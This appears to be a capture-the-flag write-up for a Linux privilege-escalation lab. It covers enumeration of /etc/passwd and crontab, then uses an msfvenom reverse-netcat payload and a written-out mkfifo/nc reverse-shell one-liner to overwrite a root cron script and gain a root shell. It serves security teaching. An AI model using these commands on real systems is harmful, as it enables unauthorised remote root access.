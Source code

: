 # Common Linux Privesc Writeup

## [Task 1 - 3]

Follow The Readings Provided

## [Task 4] Enumeration

### 1 SSH into machine with the provided credentials 

username = user3
password = password

- ssh user3@10.10.x.x
![1](https://user-images.githubusercontent.com/69840849/90487228-85318c80-e17d-11ea-97a6-4fae52b8f968.png)

### 2 What is the target's hostname?

- hostname
![1](https://user-images.githubusercontent.com/69840849/90487310-a4c8b500-e17d-11ea-8c13-e124db0080e5.png)
 
### 3 Look at the output of /etc/passwd how many "user[x]" are there on the system?

- cat /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90487951-7f887680-e17e-11ea-9a89-695bbae5f50e.png)

### 4 How many available shells are there on the system?

- cat /etc/shells
![1](https://user-images.githubusercontent.com/69840849/90487873-654e9880-e17e-11ea-930b-d8a76d45b608.png)

### 5 What is the name of the bash script that is set to run every 5 minutes by cron? 

- cat /etc/crontab
[ ! ] You should be able to find the name of the .sh file
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 What critical file has had its permissions changed to allow some users to write to it?

- ls -la /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90488017-9929be00-e17e-11ea-8e7b-2a970579333e.png)

### 7 Enumeration Completed

## [Task 5] Abusing SUID/GUID Files

## [Task 6] Exploiting Writeable /etc/passwd 

## [Task 7] Escaping Vi Editor 

## [Task 8] Exploiting Crontab 

### 1 Switch user to User4 with the provided credentials 

username = user4
password = password

- su user4
![1](https://user-images.githubusercontent.com/69840849/90488480-53b9c080-e17f-11ea-8e7b-a8fcd383bbd4.png)

### 2 Msfvenom
-

### 3 What is the flag to specify a payload in msfvenom?

[ ! ] You can find the answer by using 
- msfvenom -h

### 4 Create a payload using: 

- msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
[ ! ] Reminder, LOCALIP depends on your own machine, I will be using 10.10.0.0 as an example! 
[ ! ] In this situation, we can use port 8888. We can use another port number such as 1234 as long as the netcat listener is also set to 1234
![1](https://user-images.githubusercontent.com/69840849/90489384-8f08bf00-e180-11ea-9dcc-e3927b6bf169.png)

### 5 What directory is the "autoscript.sh" under?

- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

- echo "mkfifo /tmp/qjqlxog; nc 10.10.0.0 8888 0</tmp/qjqlxog | /bin/sh >/tmp/qjqlxog 2>&1; rm /tmp/qjqlxog" > autoscript.sh


### 7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using:
- nc -lnvp 8888
![1](https://user-images.githubusercontent.com/69840849/90490101-895fa900-e181-11ea-8166-ca5a4a637815.png)


### 8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 
[ ! ] You may use the follow to check if it worked
- whoami
![1](https://user-images.githubusercontent.com/69840849/90490473-01c66a00-e182-11ea-88c6-f84af16895ba.png)


## [Task 9] Exploiting PATH Variable 

## [Task 10] Expanding Your Knowledge 

Follow The Readings Provided
